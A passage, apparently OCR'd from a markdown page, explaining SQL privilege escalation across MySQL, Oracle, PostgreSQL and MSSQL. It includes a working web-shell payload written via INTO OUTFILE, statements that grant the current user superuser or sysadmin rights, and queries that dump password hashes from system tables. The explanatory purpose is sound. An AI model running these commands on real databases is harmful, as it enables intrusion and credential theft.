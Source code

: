 - **MySQL**:  
  - **INTO OUTFILE**: Writes data to a file, often used to create web shells.  
    ```sql  
    SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/shell.php';  
    ```  
  - **SYSTEM()**: Executes OS commands (if enabled).  

- **Oracle**:  
  - **UTL_HTTP**: Sends data externally or executes commands via HTTP requests.  
  - **DBMS_SCHEDULER**: Creates jobs to run OS commands.  

---

### **2. Alters Own Privileges**  
Attackers may directly modify their privileges using SQL commands:  

- **MySQL**:  
  ```sql  
  GRANT ALL PRIVILEGES ON *.* TO CURRENT_USER; -- Grants full database access  
  ```  

- **PostgreSQL**:  
  ```sql  
  ALTER USER CURRENT_USER WITH SUPERUSER; -- Grants superuser privileges  
  ```  

- **MSSQL**:  
  ```sql  
  ALTER SERVER ROLE sysadmin ADD MEMBER [current_user]; -- Adds to admin group  
  ```  

---

### **3. Accessing Sensitive System Tables**  
Extracting credentials or permissions from system tables allows attackers to impersonate privileged users:  

- **MySQL**:  
  ```sql  
  SELECT User, Host, Authentication_String FROM mysql.user; -- Reveals hashed passwords  
  ```  

- **MSSQL**:  
  ```sql  
  SELECT name, password_hash FROM sys.sql_logins; -- Retrieves login credentials  
  ```  

- **PostgreSQL**:  
  ```sql  
  SELECT usename, passwd FROM pg_shadow; -- Exposes user passwords  
  ```  

---

### **4. Abusing Definer Rights**  
Stored procedures with `DEFINER` privileges execute under the owner’s context. If owned by a high-privilege user (e.g., `root`), invoking them grants elevated access:  
